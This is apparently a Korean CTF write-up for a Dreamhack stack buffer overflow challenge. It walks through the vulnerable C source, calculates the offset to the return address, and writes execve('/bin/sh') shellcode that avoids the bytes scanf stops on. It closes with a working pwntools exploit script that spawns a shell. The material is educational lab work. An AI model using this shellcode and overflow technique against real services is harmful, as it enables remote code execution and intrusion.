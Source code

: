 ## 📍basic_exploitation_000

```
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_000)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
```

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

### 소스코드
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
	
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x80];
	
    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);
	
    return 0;
}
```

30초가 지나면 `alarm_handler`를 호출하고 프로그램이 종료된다.

버퍼의 시작 주소를 출력한다.
버퍼의 크기는 0x80 = 128바이트이나, 최대 141바이트까지 입력을 허용한다.
즉 13바이트를 overwrite할 수 있다.

#### 풀이

문제에서 셸을 획득하라고 하는데, 셸을 실행할 수 있는 함수가 코드에 없기 때문에 셸코드를 사용해야 한다.

문제는 32bit 아키텍처를 사용하므로, 리턴 주소는 `ebp+0x4`가 될 것이다. (`0x4` = SFP의 크기)
`scanf` 함수의 버퍼 시작 주소와 `ebp+0x4` 사이의 거리를 알아낸다.

버퍼에는 셸코드부터, 남은 바이트는 더미 데이터로 채운다.
리턴 주소에는 앞서 입력한 셸코드의 주소가 들어가도록 해 함수가 리턴되면 셸코드가 실행되도록 한다.


### 바이너리 분석

![](../../Attachments/AE179B09-E38A-4656-B42D-4A4B3AD02A5F.png)

`scanf`에서 사용하는 버퍼의 시작 주소는 `ebp-0x80`이다.
따라서 `ebp-0x80`부터 `0x84`, 즉 132바이트만큼을 더미 데이터로 채우면 된다.


### 익스플로잇
#### scanf() 함수로 입력을 받는 경우 shellcode를 작성할 때 주의할 점
- 입력값은 버퍼에 저장되는데, `scanf()` 함수는 공백, 탭, 개행 3가지가 나오기 전까지 입력 버퍼에 있는 값을 가져오는 함수
	- 공백, 탭, 개행
		➡️ `0x09`(Horizontal Tab), `0x0A`(Line Feed), `0x0B`(Vertical Tab), `0x0C`(Form Feed), `0x0D`(Carriage Return), `0x20`(Space)
	- **문제**: 32bit 아키텍처에서 `execve()` 시스템 콜 값 = `0x0B`
		- `0x0B`는 아스키 코드에서 Vertical Tab이므로, `0x0B` 값 뒤에 있는 코드들은 무시됨
	- **해결**: 작성한 셸코드가 `scanf()` 함수로 입력받는 경우
		- `0x09`, `0x0A`, `0x0B`, `0x0C`, `0x0D`, `0x20` 값이 셸코드에 포함되지 않도록 작성해야 함

#### 32bit 아키텍처의 execve 셸코드
##### "/bin/sh" 문자열의 리틀 엔디안 값
- `/bin/sh` = `2F 62 69 6E 2F 73 68`
- 32bit 아키텍처이므로, 4바이트씩 나눠서 스택에 push한다.
- 1번째 블록: /sh = `68 73 2F`
- 2번째 블록: /bin = `6E 69 62 2F`

##### 셸 코드
```
section .text
global _start

_start:
	xor eax, eax
	push eax
	push 0x68732F       ; /sh
	push 0x6E69622F     ; /bin
	mov ebx, esp        ; ebx = "/bin/sh"
	xor ecx, ecx
	xor edx, edx
	mov al, 0x8
	inc al
	inc al
	inc al
	int 0x80
```
- `ebx`에 실행하고자 하는 바이너리의 경로를 적어준다.
- `ecx`, `edx`에는 각각 프로그램의 인자 포인터 배열과 환경변수 포인터 배열을 적는데, 지금은 `/bin/sh`만 실행하면 되므로 0으로 만든다.
- `eax`에 시스템 콜 번호를 넣어주는데, `0x0b`는 Vertical Tab이므로 바로 넣을 수 없고, `0x0a`, `0x09`도 넣을 수 없으므로, `0x08`에서 시작해서 1씩 증가시켜 `0x0b`를 만든다.
	- `al`: `eax` 레지스터의 하위 16비트
- `int 0x80`: 프로세스가 커널에 시스템 콜을 요청한다.

##### 바이너리 추출
1. `vi execve.asm`: 셸코드 작성 후 저장
2. `nasm -f elf execve.asm`: 오브젝트 파일 생성
3. `objdump -d execve.o`: 확인 ![](../../Attachments/0319C5E3-7E77-4C27-B600-CCE13BB3B8FC.png)
4. `objcopy --dump-section .text=shellcode.bin execve.o`: 바이너리 파일로 변환
5. `xxd -p shellcode.bin`: 바이너리에서 hexdump 값 뽑기![](../../Attachments/F03271C2-D8C3-4E9C-8A40-3AFB4CACC9A3.png)

위를 셸코드 형식으로 작성한다.

`\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80`

#### pwntools를 이용한 익스플로잇 코드

```python
from pwn import *

p = remote("host3.dreamhack.games", 8235)
p.recvuntil("buf = (")

buf_addr = int(p.recv(10), 16)

shellcode = b'\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80'
payload = shellcode + b'a'*(0x84 - len(shellcode)) + p32(buf_addr)

p.send(payload)
p.interactive()
```

![](../../Attachments/5AB8D97B-7853-40AE-BDDF-E21425429BAF.png)

30초 제한시간이 있다는 걸 까먹고 코드를 계속 고치면서 삽질했다...

🚩